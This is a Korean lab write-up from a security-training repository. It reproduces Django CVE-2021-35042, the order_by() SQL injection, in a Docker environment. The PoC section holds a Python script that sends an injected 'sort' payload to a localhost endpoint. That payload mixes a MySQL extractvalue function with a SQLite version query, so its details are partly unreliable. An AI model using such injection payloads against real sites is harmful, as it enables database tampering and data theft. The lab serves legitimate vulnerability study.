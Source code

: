 # CVE-2021-35042 - Django QuerySet.order_by() SQL Injection 환경 구축 및 PoC

> 화이트햇스쿨 3기 33반 - 이희민 @gmlals (https://github.com/gmlals/kr-vulhub/tree/main/leehuiminDjango/CVE-2021-35042)


## 요약
Django 3.1.12 버전에서 발생하는 CVE-2021-35042 (QuerySet.order_by() SQL Injection) 취약점에 대한 환경을 Docker 기반으로 구축하고, 이를 검증(PoC)했다.

## 환경 구성
- 사용 기술: Docker, Docker Compose, Django 3.1.12
- 취약 환경 구축 파일:
  - `Dockerfile`
  - `docker-compose.yaml`
- 환경 실행 방법:
  1. `docker-compose up` 명령어로 컨테이너 실행
  2. 브라우저에서 `http://localhost:8000/vuln` 접속하여 서버 상태 확인

## 구축 과정

### 1. Dockerfile 작성
- python:3.8-slim 이미지를 기반으로 Django 3.1.12를 설치
![image](https://github.com/user-attachments/assets/3944eb99-ae91-428d-a5e5-8733535517d7)



### 2. docker-compose.yaml 작성
- Django 앱을 컨테이너로 띄우기 위해 기본 포트 8000을 매핑
![image](https://github.com/user-attachments/assets/29df95ba-d180-4a1b-bfe2-ca3aa6534a86)



### 3. Django 프로젝트 생성 및 vulnapp 앱 생성
- `django-admin startproject config .` 명령어로 프로젝트 생성
- `vulnapp` 앱을 생성하고, `views.py`에 취약한 `vuln_view`를 작성
![image](https://github.com/user-attachments/assets/2cd99ec4-651d-45de-acec-141e49906612)

- `models.py`에 단순한 `TestModel`을 추가하여 정렬 대상 테이블 구성
![image](https://github.com/user-attachments/assets/6ef4e90e-5373-4ea6-bc5d-26e032ce722e)



### 4. URL 연결
- `/vuln` 경로로 vuln_view를 연결

### 5. 서버 실행 확인
- `docker-compose up` 명령어로 서버를 띄운 후, `http://localhost:8000/vuln`에 정상 접속되는 것을 확인
![image](https://github.com/user-attachments/assets/cbf0c93d-6b04-492a-a51d-b1f59457da7c)


## PoC 수행

### 1. 공격 스크립트 작성 (poc.py)
```python
import requests

target = "http://127.0.0.1:8000/vuln"
payload = "extractvalue(1,concat(0x7e,(SELECT sqlite_version())))"

params = {
    "sort": payload
}

res = requests.get(target, params=params)

print("[+] Status Code:", res.status_code)
print("[+] Response Text:", res.text)
```

![image](https://github.com/user-attachments/assets/cd2c2266-3118-43aa-bbd4-2b9b0bf3b5cc)

### 2. 공격 수행 결과
![image](https://github.com/user-attachments/assets/d2cbf111-7d68-4671-af5f-efbb661028e7)
poc.py를 실행한 결과, 서버에서 500 에러와 함께 SQL 오류 메시지가 반환됨.
=> 사용자 입력이 검증되지 않고 직접 쿼리에 삽입되었음을 의미

## 정리
CVE-2021-35042는 Django의 order_by() 함수에서 사용자 입력을 필터링하지 않아 발생하는 SQL Injection 취약점이다.
공격자가 특수 crafted된 sort 파라미터를 삽입할 경우, 데이터베이스로 직접적인 쿼리 조작이 가능하다.
최신 Django 버전에서는 이 문제를 해결하였다.
